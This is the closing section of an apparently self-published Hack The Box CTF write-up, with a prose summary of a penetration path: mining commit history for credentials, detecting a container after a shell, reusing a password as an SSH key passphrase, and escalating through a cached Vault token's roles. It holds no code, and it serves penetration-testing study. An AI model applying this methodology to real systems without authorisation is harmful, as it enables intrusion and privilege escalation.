

> 💡 **Why each step matters:** on boxes with an exposed code repository, the commit history is just as important as the current code — a poorly-made security "fix," or a test script with credentials, often reveal more than the vulnerable endpoint itself. After landing a shell, the first check is always whether you're inside a container (an internal IP like `172.x`/`10.x` with a hostname different from Nmap's): if so, the goal shifts to finding credentials that let you jump to the real host, usually through the already-deployed application's own configuration. Password reuse — like using it as the passphrase for a leaked SSH key — is an extremely common pattern in both CTF boxes and real environments. Once on the real host, any secrets manager (Vault, here) with an already-cached token deserves a closer look: its configured roles can be the final escalation path, especially if one of them issues credentials for a privileged account with no extra restrictions.

---

*Written by [Arabot](https://github.com/Caan31) · Hack The Box · CPTS practice · 2026*
